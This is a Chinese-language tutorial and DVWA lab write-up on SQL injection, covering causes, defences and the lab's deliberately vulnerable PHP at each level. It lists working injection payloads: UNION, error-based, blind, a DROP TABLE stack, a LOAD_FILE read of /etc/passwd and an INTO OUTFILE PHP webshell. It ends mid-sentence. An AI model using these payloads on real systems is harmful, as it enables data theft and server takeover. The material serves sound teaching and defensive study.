






# SQl Injection 

## 一、SQL注入简介

SQL注入（英语：SQL injection），也称SQL注入或SQL注码，是发生于应用程序与数据库层的安全漏洞。简而言之，是在输入的字符串之中注入SQL指令，在设计不良的程序当中忽略了字符检查，那么这些注入进去的恶意指令就会被数据库服务器误认为是正常的SQL指令而执行，因此遭到破坏或是入侵。[2]

### 原因

Xkcd上的一幅漫画。该学生的姓名为“Robert'); DROP TABLE students;--”，导致students表被删除。[3]

在应用程序中若有下列状况，则可能应用程序正暴露在SQL Injection的高风险情况下：

- 在应用程序中使用字符串联结方式或联合查询方式组合SQL指令。
- 在应用程序链接数据库时使用权限过大的账户（例如很多开发人员都喜欢用最高权限的系统管理员账户（如常见的root，sa等）连接数据库）。
- 在数据库中开放了不必要但权力过大的功能（例如在Microsoft SQL Server数据库中的xp_cmdshell延伸存储程序或是OLE Automation存储程序等）
- 太过于信任用户所输入的资料，未限制输入的特殊字符，以及未对用户输入的资料做潜在指令的检查。

### 作用原理

- SQL命令可查询、插入、更新、删除等，命令的串接。而以分号字符为不同命令的区别。（原本的作用是用于SubQuery或作为查询、插入、更新、删除......等的条件式）
- SQL命令对于传入的字符串参数是用单引号字符所包起来。（但连续2个单引号字符，在SQL数据库中，则视为字符串中的一个单引号字符）
- SQL命令中，可以注入注解（连续2个减号字符 -- 后的文字为注解，或“/*”与“*/”所包起来的文字为注解）
- 因此，如果在组合SQL的命令字符串时，未针对单引号字符作转义处理的话，将导致该字符变量在填入命令字符串时，被恶意窜改原本的SQL语法的作用。

### 例子

某个网站的登录验证的SQL查询代码为

```
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

恶意填入

```
userName = "1' OR '1'='1";
```

与

```
passWord = "1' OR '1'='1";
```

时，将导致原本的SQL字符串被填为

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

也就是实际上运行的SQL命令会变成下面这样的

```
strSQL = "SELECT * FROM users;"
```

因此达到无账号密码，亦可登录网站。所以SQL注入被俗称为黑客的填空游戏。

### 可能造成的伤害

- 资料表中的资料外泄，例如企业及个人机密资料，账户资料，密码等。
- 数据结构被黑客探知，得以做进一步攻击（例如SELECT * FROM sys.tables）。
- 数据库服务器被攻击，系统管理员账户被窜改（例如ALTER LOGIN sa WITH PASSWORD='xxxxxx'）。
- 获取系统较高权限后，有可能得以在网页加入恶意链接、恶意代码以及Phishing等。
- 经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统（例如xp_cmdshell "net stop iisadmin"可停止服务器的IIS服务）。
- 攻击者利用数据库提供的各种功能操纵文件系统，写入Webshell，最终导致攻击者攻陷系统
- 破坏硬盘资料，瘫痪全系统（例如xp_cmdshell "FORMAT C:"）。
- 获取系统最高权限后，可针对企业内部的任一管理系统做大规模破坏，甚至让其企业倒闭。
- 网站主页被窜改，导致声誉受到损害。

### 避免的方法

- 在设计应用程序时，完全使用**参数化查询（Parameterized Query）**来设计资料访问功能。
- 在组合SQL字符串时，先针对所传入的参数加入其他字符（将单引号字符前加上转义字符）**输入过滤/严格检查**。
- 如果使用PHP开发网页程序的话，需加入转义字符之功能（自动将所有的网页传入参数，将单引号字符前加上转义字符）。
- **最小权限原则**:给数据库操作的账号分配 "最小必要权限"
- **静默处理/输出内容限制**:对于错误与正确的查询结果都选择静默处理，增加攻击成本，减少暴露面，以及对内容输出进行限制，比如只输出前1000个字符或单条查询记录等
- 增强网页应用程序防火墙的防御力
- 使用php开发，可写入html特殊函数，可正确阻挡XSS攻击。
- 其他，使用其他更安全的方式连接SQL数据库。例如已修正过SQL注入问题的数据库连接组件，例如ASP.NET的SqlDataSource对象或是 LINQ to SQL。


### SQL Injection cheat sheet

**解释**：SQL Injection cheat sheet是一个包含各种SQL注入攻击载荷的列表，旨在帮助安全研究人员和开发人员测试和理解SQL注入漏洞。它提供了不同类型的SQL注入攻击示例，包括基本的单引号闭合、联合查询、报错注入等。这些载荷可以用于手动测试应用程序的安全性，或者作为自动化工具（如sqlmap）的输入，以验证SQL注入漏洞的存在和利用方式

**参考链接**：[SQL Injection cheat sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet)
[SQL Injection OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
[SQL Injection prevention guide](https://bobby-tables.com/)


## 二、DVWA中的SQL Injection

初始界面：


### SQL Injection Low级别

**源码**：
```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        //查询条件分为两个数据库，mysql和sqlite
        case MYSQL:
            // Check database
            //①此处查询直接拼接用户输入字符串，导致SQL注入漏洞
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            mysqli_close($GLOBALS["___mysqli_ston"]);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            #$sqlite_db_connection = new SQLite3($_DVWA['SQLITE_DB']);
            #$sqlite_db_connection->enableExceptions(true);
            //②此处查询直接拼接用户输入字符串，导致SQL注入漏洞
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    } 
}

?>
```
**原理说明**：

在①和②的数据库查询当中都是**直接拼接用户输入的字符串，没有进行安全过滤**，*使用'或特殊的字符可能导致查询语句提前闭合，以及添加其他注入语句*，导致了SQL注入漏洞
如：构造payload：
```
?id=1' OR '1'='1
```
最终查询语句分别变为
```
①处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';";
②处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '1' OR'1'='1';";
```

后续的循环查询当中查询条件"user_id = '1' OR'1'='1'"始终成立，在遍历的过程中会输出全部的用户信息


payload结果展示：


除了上述字符型注入(需要提前闭合字符串)方式，还有如下几种注入方式：
在SQL注入中，除了你使用的 `' OR '1'='1`（字符型注入中的恒真绕过）之外，还有很多种利用方式。下面按**注入类型**和**利用技术**分类介绍，每种都配有简要说明和典型示例。


#### 一、按参数类型分类

##### - **数字型注入**
   - **说明**：当应用程序直接将用户输入的数字拼接到SQL语句中，且未加引号包裹时，攻击者无需闭合引号即可注入。
   - **示例**：
     ```sql
     SELECT * FROM users WHERE id = $id
     ```
     payload: `1 UNION SELECT user, password FROM users`

##### - **字符型注入**
   - **说明****：输入被单引号或双引号包裹，攻击者需要先闭合引号才能注入。
   - **示例**：
     ```sql
     SELECT * FROM users WHERE username = '$username'
     ```
     payload: `admin' --`

##### - **搜索型注入**
   - **说明**：常出现在 `LIKE` 查询中，利用 `%` 和 `_` 通配符并结合 `OR` 或 `UNION` 注入。
   - **示例**：
     ```sql
     SELECT * FROM articles WHERE title LIKE '%$search%'
     ```
     payload: `%' UNION SELECT user,password FROM users --`

#### 二、按利用技术分类

##### - **联合查询注入（UNION）**
   - **说明****：通过 `UNION` 将原查询与攻击者构造的查询合并，获取额外数据。
   - **要求**：必须知道原查询的字段数，且字段类型兼容。
   - **示例**：
     ```sql
     ' UNION SELECT username, password FROM users --
     ```

##### - **报错注入**
   - **说明**：利用数据库函数在条件错误时返回信息，从错误消息中提取数据。
   - **常用函数**：`updatexml()`、`extractvalue()`（MySQL）、`convert()`（MSSQL）
   - **示例（MySQL）**：
     ```sql
     ' AND updatexml(1, concat(0x7e, (SELECT database()), 0x7e), 1) --
     ```

##### - **布尔盲注**
   - **说明**：页面不直接返回数据，但根据条件真假返回不同内容（如“存在”/“不存在”），通过逐字符判断获取数据。
   - **示例**：
     ```sql
     ' AND ASCII(SUBSTR((SELECT database()),1,1)) > 100 --
     ```

##### - **时间盲注**
   - **说明**：页面无任何回显差异，利用数据库延时函数，根据响应时间判断条件。
   - **常用函数**：`SLEEP()`（MySQL）、`WAITFOR DELAY`（MSSQL）、`pg_sleep()`（PostgreSQL）
   - **示例**：
     ```sql
     ' AND IF( (SELECT user())='root', SLEEP(5), 0) --
     ```

##### - **堆叠查询**
   - **说明**：使用分号 `;` 分隔多条SQL语句，执行任意操作（如增删改）。
   - **要求**：数据库支持多语句执行（如MySQL需 `mysqli_multi_query`、MSSQL默认支持）。
   - **示例**：
     ```sql
     '; DROP TABLE users; --
     ```

##### - **二阶注入**
   - **说明**：恶意数据先被存入数据库，之后在另一处被不安全地取出并使用，触发注入。
   - **示例**：注册用户名为 `admin' --`，后续修改密码时拼接用户名导致注入。

##### - **文件读写注入**
   - **说明**：利用 `LOAD_FILE()` 读取服务器文件，或 `INTO OUTFILE` 写入文件（需高权限）。
   - **示例（读取文件）**：
     ```sql
     ' UNION SELECT LOAD_FILE('/etc/passwd'), NULL --
     ```
   - **示例（写入WebShell）**：
     ```sql
     ' UNION SELECT "<?php system($_GET['cmd']); ?>", NULL INTO OUTFILE '/var/www/html/shell.php' --
     ```

#### 三、按注入位置分类

##### - **GET注入**
   - **说明**：参数通过URL传递，最常见。
   - **示例**：`?id=1' AND 1=1 --`

##### - **POST注入**
   - **说明**：参数通过表单POST提交，常用于登录框、搜索框。
   - **示例**：`username=admin' -- &password=any`

##### - **Cookie注入**
   - **说明**：参数从Cookie中读取，如DVWA High级别的盲注。
   - **示例**：设置 `Cookie: id=1' AND 1=1 --`

##### - **HTTP头注入**
   - **说明**：从 `User-Agent`、`Referer`、`X-Forwarded-For` 等头中读取并拼接。
   - **示例**：`User-Agent: ' OR 1=1 --`

#### 四、特殊技巧

##### - **宽字节注入**
   - **说明**：当后端使用 `addslashes()` 或 `mysql_real_escape_string()` 转义单引号时，利用GBK等编码使反斜杠失效。
   - **示例**：`%df' UNION ...`

##### - **编码绕过**
   - **说明**：使用URL编码、双重编码、十六进制等方式绕过简单过滤。
   - **示例**：`%27` 表示 `'`，`%3D` 表示 `=`

##### - **内联注释**
   - **说明**：利用 `/*! ... */` 在MySQL中执行特定版本的代码，可绕过检测。
   - **示例**：`/*!50000SELECT*/ 1`

### SQL Injection Medium级别

**源码**：
```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    
    $id = $_POST[ 'id' ];
    //①处，对于用户输入的字符串，调用了mysqli_real_escape_string函数进行对特殊字符如'和"等的转义，避免了low级别的带有特殊字符的SQL注入漏洞
    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
        //②构造查询语句，user_id直接等于转义后的$id,可能有数字型注入
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Display values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }
            break;
        case SQLITE:
            global $sqlite_db_connection;
            //③构造查询语句，user_id直接等于转义后的$id,可能有数字型注入
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
**原理说明**：
虽然较于low级别的SQL注入漏洞，medium级别的SQL注入增加了对**特殊字符如`'`和`"`等的转义**，避免了引号的提前闭合，但是如果构造不需要转义查询语句（数字型注入），仍然可能导致SQL注入漏洞
如：构造payload：
```
1
```
或者
```
1 UNION SELECT user, password FROM users
```
经过转义之后，对输入没有影响
最后的查询语句变为
```
②处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = 1;";
③处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = 1;";
```

payload结果展示：


### SQL Injection High级别

**源码**：
```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    //①处，对于用户的输入，先调用$_SESSION[ 'id' ] 对用户创建一个session
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            //②处，除了直接用session的id作为查询条件，还对id进行了限制，限制了查询条件的长度（LIMIT 1），想要输出的长度超过1，就需要注释掉其内容
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            //③处，较low和medium级别的防御，这里对输出结果进行了蒙蔽，减少暴露更多的信息
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
            break;
        case SQLITE:
            global $sqlite_db_connection;
            //④处，同②处，除了直接用session的id作为查询条件，还对id进行了限制，限制了查询条件的长度（LIMIT 1），想要输出的长度超过1，就需要注释掉其内容
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            #print $query;
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
            //⑤处，较low和medium级别的防御，这里对输出结果进行了蒙蔽，减少暴露更多的信息
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
}

?>
```

**原理说明**：
相比于medium级别的SQL注入漏洞，high级别的SQL注入首先对用户输入**进行$_SESSION[ 'id' ]的创建**，然后在数据库查询中拼接了$_SESSION[ 'id' ]，并且**限制了查询条数**，还**隐藏了输出(查询)错误**，减少了暴露面
*$_SESSION()的作用：一个PHP中的超全局变量，用于存储特定用户的会话数据。它允许你在用户的多个请求之间持久地存储数据。当一个用户的会话开始时，PHP会创建一个唯一的会话ID，并将此ID作为Cookie发送给用户的浏览器。每次用户请求页面时，浏览器都会将这个会话ID发送回服务器，从而使服务器能够识别该用户的请求，并加载与该会话ID相关的会话数据。*
分析代码：
由于$_SESSION[ 'id' ] 是通过用户输入的$id创建的，然后直接拼接到查询语句中，所以还是容易出现SQL注入漏洞，如构造payload：
```
1' OR '1'='1' -- 
```
或者
```
1 UNION SELECT user, password FROM users#
```
经过session创造后，还是没有什么影响，并且通过"-- [^注意有空格]"(SQL通用注释符)和"#"(Mysql自带注释符)注释掉了LIMIT 1的限制,进而查询结果可以输出多条
当然相较于low级别的直接拼接，构造同样的payload`1' OR '1'='1`还是可以起到作用，只是LIMIT 1的限制只返回了一个admin账户
如下图：


最后的查询语句变为
```
④处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' -- LIMIT 1;";
⑤处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' -- LIMIT 1;";
```


payload结果展示：
第一种payload：

第二种payload：


### SQL Injection Impossible级别

**源码**：
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    //①处，检查用户的token是否正确，防止非法网站的CSRF攻击
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    //②处，检查用户输入是否为数字，为接下来数字转整数做铺垫，也不用使用黑名单式的字符转义策略，而是白名单式过滤
    //配合 Prepared Statement 会更安全。
    if(is_numeric( $id )) {
        //③处，将用户输入的数字转换为整数，避免了用户输入的''等类型的字符串，②和③共同完成了类型检查和强制转化
        $id = intval ($id);
        switch ($_DVWA['SQLI_DB']) {
            case MYSQL:
                // Check the database
                //③处，最重要的升级，使用(:id)的占位符代替low，medium以及high的直接拼接，任何输入直接别拼接到SQL语句中，impossible级别使用占位符的形式，数据库优先检查查询语句，在将输入内容单独作为一个参数传递给数据库，不纳入代码范畴，从而实现代码与数据的隔离，彻底杜绝SQL注入漏洞
                $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
                $data->bindParam( ':id', $id, PDO::PARAM_INT );
                $data->execute();
                $row = $data->fetch();

                // Make sure only 1 result is returned
                //④处，确保只返回一行数据，防止通过 UNION 等技巧一次性获取多行记录。
                if( $data->rowCount() == 1 ) {
                    // Get values
                    $first = $row[ 'first_name' ];
                    $last  = $row[ 'last_name' ];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
                break;
            case SQLITE:
                global $sqlite_db_connection;
                //⑤处，同③处，使用(:id)的占位符代替low，medium以及high的直接拼接，任何输入直接别拼接到SQL语句中，impossible级别使用占位符的形式，数据库优先检查查询语句，在将输入内容单独作为一个参数传递给数据库，不纳入代码范畴，从而实现代码与数据的隔离，彻底杜绝SQL注入漏洞
                $stmt = $sqlite_db_connection->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id LIMIT 1;' );
                $stmt->bindValue(':id',$id,SQLITE3_INTEGER);
                $result = $stmt->execute();
                $result->finalize();
                if ($result !== false) {
                    // There is no way to get the number of rows returned
                    // This checks the number of columns (not rows) just
                    // as a precaution, but it won't stop someone dumping
                    // multiple rows and viewing them one at a time.
                    //⑥处，由于 SQLite 无法直接获取行数，改为检查返回的列数是否为预期的 2 列（first_name, last_name），避免攻击者通过 UNION 添加额外列。虽然不能完全阻止逐行盲注，但增加了利用难度。
                    $num_columns = $result->numColumns();
                    if ($num_columns == 2) {
                        $row = $result->fetchArray();

                        // Get values
                        $first = $row[ 'first_name' ];
                        $last  = $row[ 'last_name' ];

                        // Feedback for end user
                        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                    }
                }

                break;
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

**原理说明**：
相较于high级别的防护，impossible级别的SQL注入防护更加彻底，分别有一下几点
1. ①处，防止CSRF攻击，使用token验证用户的请求，防止非法网站的CSRF攻击。
